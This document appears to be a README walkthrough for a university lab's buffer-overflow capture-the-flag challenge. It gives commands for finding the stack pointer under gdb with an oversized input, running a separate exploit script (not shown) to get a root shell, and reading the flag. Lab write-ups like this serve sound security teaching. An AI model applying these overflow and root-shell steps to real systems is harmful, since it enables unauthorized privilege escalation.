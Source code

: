 
# CTF 4 - BOF

## SETUP

1. Deploy your challenge instance
1. Open a terminal and connect to your instance with:

    ``` bash
    ssh {unix_username}@syssec-lab.s3.eurecom.fr -p {port_number}
    ```

1. In your home directory, create a file called "exploit" and copy the content of **[`exploit`](exploit)**

    ```bash
    vi $HOME/exploit
    ```

    *Save and quit with `:wq`*

## ATTACK

1. Navigate to ./bof and run ./runner under gdb

    ```bash
    cd $HOME/bof
    env - gdb ./runner
    ```

1. Get the address of the stack pointer by runnig the following lines:

    ``` bash
    unset env LINES
    unset env COLUMNS
    b 24
    y
    r `perl -e 'print "A" x 129'`
    p/x $esp
    ```

    The address of your stack pointer will be printed.

    > Example:  
      $1 = 0xffffffff

    Save this address and quit gdb

    ```bash
    q
    y
    ```

1. Run *exploit* with the address you just got

    ```bash
    bash $HOME/exploit {esp_address}
    ```

    > Example:  
      bash $HOME/exploit 0xffffffff

1. Once you get the root shell, you can cat the flag

    ```bash
    cat arena/flag
    ```
